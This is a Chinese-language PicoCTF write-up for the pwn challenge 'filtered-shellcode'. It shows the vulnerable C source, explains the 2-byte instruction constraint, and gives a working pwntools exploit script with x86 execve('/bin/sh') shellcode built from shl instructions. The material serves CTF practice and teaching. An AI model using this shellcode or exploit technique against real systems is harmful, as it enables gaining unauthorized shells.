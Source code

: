 ```yaml
---
title: PicoCTF - filtered-shellcode
tags: [PicoCTF, CTF, PWN]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - filtered-shellcode
## Background
Shell Code
Reverse
## Source code
:::spoiler Source Code Got From Server After Get Shell
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
```
:::
## Recon
這一題沒有很難，但我沒有解出來，主要是因為reverse看不懂，完了QAQ，IDA都亂翻，只能求助於[^pico_pwn_filtered_shellcode_wp]，其實很簡單，好像也沒有filter的成分在，如果限制只能用每次兩bytes寫shell code不算的話
1. 其實就兩個function，一個是main function，另外一個是execute function，execute function主要會每一個shell code中間插入兩個nop，然後用function pointer的方式執行，所以我們的目標是寫一個shell code script開server的shell
2. 重點是shell code的instruction只能用2 bytes的instruction，所以沒辦法用類似`mov eax, 0x6e69622f`的這種方式，會GG，原因出自於execute function的for loop，他會把我們寫的shell code用2 bytes的方式切開，然後中間塞兩個nop(也就是兩個\x90，也是兩個bytes)，所以這其實就是限制我們只能用2 bytes寫shell code
    ```cpp!
    if ((i % 4) < 2) {result[i] = shellcode[spot++];}
    else {result[i] = '\x90';}
    ```
4. 所以不能隨便用exploit db上找到的shell code複製貼上，或是用以下payload，必須要善用`shl`，只要shl 16次(也就是2 bytes)就可以同時方式0x6e69622f，效果和`mov eax, 0x6e69622f`一樣
    ```asm!
    payload = asm("""
        mov eax, 0x6e69622f
        push eax
        mov eax, 0x0068732f
        push eax
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        mov eax, 0xb
        lea ebx, DWORD PTR [esp]
        int 0x80
    """)
    ```
## Exploit - Write Properly Shell Code
```python!
from pwn import *

r = process('./fun')
# r = remote('mercury.picoctf.net', 35338)
r.recvline()

payload = asm("""
    /*Put the syscall number of execve in eax*/
    xor eax, eax
    mov al, 0xb
    
    /*Put zero in ecx and edx*/
    xor ecx, ecx
    xor edx, edx
    
    /*Push "/sh\x00" on the stack*/
    xor ebx, ebx
    mov bl, 0x68
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x73
    mov bl, 0x2f
    push ebx
    nop
    
    /*Push "/bin" on the stack*/
    mov bh, 0x6e
    mov bl, 0x69
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x62
    mov bl, 0x2f
    push ebx
    nop
              
    /*Move the esp (that points to "/bin/sh\x00") in ebx*/
    mov ebx, esp/*Syscall*/
    int 0x80
""")
r.sendline(payload)

r.interactive()
```
## Reference
[^pico_pwn_filtered_shellcode_wp]:[PicoCTF - Filtered Shellcode [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df)